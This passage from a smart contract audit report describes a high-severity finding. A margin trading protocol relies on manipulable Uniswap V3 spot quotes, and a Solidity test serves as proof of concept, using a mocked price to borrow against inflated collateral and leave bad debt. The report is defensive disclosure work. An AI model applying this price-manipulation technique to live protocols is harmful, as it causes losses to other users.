 **Auditor**

[Pashov Audit Group](https://twitter.com/PashovAuditGrp)

# Findings

## High Risk
### [C-01] Using Uniswap spot price is subject to manipulation

**Severity**

**Impact:** High

**Likelihood:** High

**Description**

The protocol uses the Uniswap V3 quoter contract to get the current value of the supported tokens in terms of the base token (USDC). The values returned by the quoter are the result of a simulated swap, given the current state of the pools. This means that these values can be easily manipulated, for example, by using a flash loan to add liquidity and remove it after interacting with the protocol.

The quote of tokens is used in the most critical parts of the protocol, such as withdrawal, borrowing, repayment, and liquidation. This means that an attacker could manipulate current the price of a token in their favor and cause losses to other users.

Additionally, in some transactions, there are multiple swaps involved. This means that the result of a swap can cause a change in the pool that will affect the next swap, and this is not taken into account in the quote process.

**Proof of concept**

```solidity
function test_priceManipulation() public {
    provideInitialLiquidity();

    vm.startPrank(alice);
    // Provide 1 WETH = 4_000 USDC
    marginTrading.provideERC20(marginAccountID[alice], address(WETH), 1e18);

    // Simulate price manipulation (2x WETH price in USDC)
    quoter.setSwapPrice(address(WETH), address(USDC), 8_000e6);

    // Borrow 7_000 USDC
    marginTrading.borrow(marginAccountID[alice], address(USDC), 7_000e6);

    // Withdraw 7_000 USDC
    marginTrading.withdrawERC20(marginAccountID[alice], address(USDC), 7_000e6);
    vm.stopPrank();

    // Simulate price manipulation recovery
    quoter.setSwapPrice(address(WETH), address(USDC), 4_000e6);

    // Alice got 3_000 USDC profit and left her position with bad debt
    uint256 accountRatio = marginTrading.getMarginAccountRatio(marginAccountID[alice]);
    assert(accountRatio < 0.6e5);
}
```
